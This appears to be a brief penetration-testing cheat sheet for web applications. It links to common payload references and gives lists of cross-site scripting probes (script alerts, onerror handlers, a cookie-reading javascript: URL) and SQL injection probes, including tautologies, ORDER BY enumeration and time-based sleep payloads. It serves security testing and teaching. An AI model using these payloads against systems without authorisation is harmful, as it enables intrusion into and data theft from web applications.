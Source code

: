 [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) \
https://book.hacktricks.wiki/en/index.html \
https://portswigger.net/web-security/all-topics

### Cross-Site Scripting (XSS):

**Resources:** [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

Enter the following payloads into user input fields and see how they are reflected in the application. If user input is reflected back unencoded and unfiltered, especially in javascript, then XSS is likely. \
Alert() can be replaced with print() if your application is filtering out alert().
```
<b>test</b> 
<script>alert(1)</script>

<img src=1 onerror=alert(1)>

javascript:alert(document.cookie)

"onload="alert(1)

${alert(1)}

alert`1`

'-alert()-'
```

### SQL Injection
Review the following site for a cheat sheet showing specific requirements and payloads for the most common databases. This will help tailor the following payloads to your environment. For example, if your application uses MySQL, replace the `--` in the commands below with `#`.

**Resources:** https://portswigger.net/web-security/sql-injection/cheat-sheet

```
' followed by: ''

Oracle Concat: foo'||'bar
Microsoft Concat: foo'+'bar
PostgreSQL Concat: foo'||'bar
MySQL Concat: foo' 'bar

' OR 1=1 -- followed by: ' OR 1=2 --
' order by 1 -- followed by: ' order by 100 --
(SELECT 1) followed by: (SELECT 2)

'||pg_sleep(10)--
' OR sleep(5) OR '
'||pg_sleep(5)||'

SLEEP(1) /*' or SLEEP(1) or '" or SLEEP(1) or "*/
```
